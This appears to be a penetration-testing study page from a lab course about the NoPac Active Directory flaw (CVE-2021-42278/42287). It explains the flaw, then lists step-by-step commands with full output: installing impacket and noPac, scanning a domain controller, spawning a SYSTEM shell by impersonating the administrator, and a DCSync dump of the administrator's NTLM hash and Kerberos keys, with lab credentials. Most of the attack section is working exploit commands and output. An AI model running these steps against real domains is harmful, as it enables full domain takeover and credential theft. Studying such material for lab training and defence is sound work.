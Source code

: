 ```yaml
---
title: NoPac
draft: false
tags:
  - nopac
---
```

## NoPac (SamAccountName Spoofing)

Released at the end of 2021. 

This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287).

Allows privilege escalation from any standard domain user to Domain Admin level access in one single command.

|42278|42287|
|---|---|
|`42278` is a bypass vulnerability with the Security Account Manager (SAM).|`42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.|

Takes advantage of being able to change the `SamAccountName` of a computer account to that of a DC.

By default, authenticated users can add up to 10 computers to a domain and attacker will change the name of the new host to match DC's SamAccountName.

After that, attacker requests Kerberos tickets causing the service to issue us tickets under the DC's name instead of the new name.

When a TGS is requested, it will issue the ticket with the closest matching name. 

Once done, attacker will have access as that service and can even be provided with SYSTEM shell on a DC.

Read in more details on [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).

### Attack

We can use this [tool](https://github.com/Ridter/noPac) to perform this attack.

#### Installation

We need both impacket and nopac.

First install impacket:

```shell-session
jadu101@htb[/htb]$ git clone https://github.com/SecureAuthCorp/impacket.git
```

```shell-session
jadu101@htb[/htb]$ python setup.py install 
```

Now install nopac:

```shell-session
jadu101@htb[/htb]$ git clone https://github.com/Ridter/noPac.git
```

#### Scanning for NoPac

Let's use `scanner.py` under NoPac directory to check if the system is vulnerable:

```shell-session
jadu101@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1484
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 663
```

#### Shell

Now that we have confirmed the vulnerability, let's get a shell. This can be noisy and might get blocked by AV or EDR:


```shell-session
jadu101@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                               
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Adding Computer Account "WIN-LWJFQMAXRVN$"
[*] MachineAccount "WIN-LWJFQMAXRVN$" password = &A#x8X^5iLva
[*] Successfully added machine account WIN-LWJFQMAXRVN$ with password &A#x8X^5iLva.
[*] WIN-LWJFQMAXRVN$ object = CN=WIN-LWJFQMAXRVN,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] WIN-LWJFQMAXRVN$ sAMAccountName == ACADEMY-EA-DC01
[*] Saving ticket in ACADEMY-EA-DC01.ccache
[*] Resting the machine account to WIN-LWJFQMAXRVN$
[*] Restored WIN-LWJFQMAXRVN$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving ticket in administrator.ccache
[*] Remove ccache of ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Rename ccache with target ...
[*] Attempting to del a computer with the name: WIN-LWJFQMAXRVN$
[-] Delete computer WIN-LWJFQMAXRVN$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

Above shell is created using smbexec.py

#### Tickets Saved

TGT tickets are saved in the attack host after the attack and we can use these cache file to perform PtT and DCSync attack if we want. 

```shell-session
jadu101@htb[/htb]$ ls

administrator_DC01.INLANEFREIGHT.local.ccache  noPac.py   requirements.txt  utils
README.md  scanner.py
```

#### DCSync

```shell-session
jadu101@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                                                    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Alreay have user administrator ticket for target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...
```


## PrintNightmare